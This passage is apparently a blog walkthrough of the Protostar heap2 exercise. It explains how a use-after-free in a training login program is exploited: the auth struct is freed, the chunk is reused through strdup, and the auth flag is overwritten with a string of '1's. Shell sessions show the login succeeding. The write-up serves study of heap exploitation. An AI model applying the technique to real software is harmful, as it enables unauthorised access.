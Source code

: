 In this program, we have a login service that reads data from `stdin`. Our
goal here is to have the program print "you have logged in already!".

We have several commands, `auth`, `reset`, `service` and `login`, that we can
call.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth test
[ auth = 0x804c008, service = (nil) ]
service AAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c018 ]
reset
[ auth = 0x804c008, service = 0x804c018 ]
```

We notice that the `auth` pointer still points to the original memory location
after the `reset` command, which `free()`'s the allocated memory. Subsequent
`login` commands then accesses the freed memory with `auth->auth`. This is a
good example of the classic Use-After-Free vulnerability. If we can overwrite
the original struct's `auth` member with `1`, we can successfully exploit this.

With glibc's malloc, heap chunks are assigned on a "best fit" basis. This can
be manipulated with various techniques (heap spraying, heap feng shui) to set
up heap memory in a way that is useful for exploitation.

For this level though, we can keep things very simple. We can allocate a
`auth` struct and free it with the `reset` command. Next, we use the `service`
command which calls the `strdup()` function that allocates memory on the heap.
We see that `strdup()` allocates memory at the same location as the freed
`auth` struct since there are no other chunks in use.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service BBBB
[ auth = 0x804c008, service = 0x804c008 ]
```

We can write multiple "1"'s to the heap-allocated buffer with `strdup` that
will eventually overwrite the original struct's `auth` member. This level is
simple enough that we don't need to be very precise about what or how many
bytes we write with `strdup()`.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 111111111111111111111111111111111111
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: {% post_url 2018-05-22-protostar-walkthrough-stack %}
[protostar-format-writeup]: {% post_url 2018-05-27-protostar-walkthrough-format %}
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap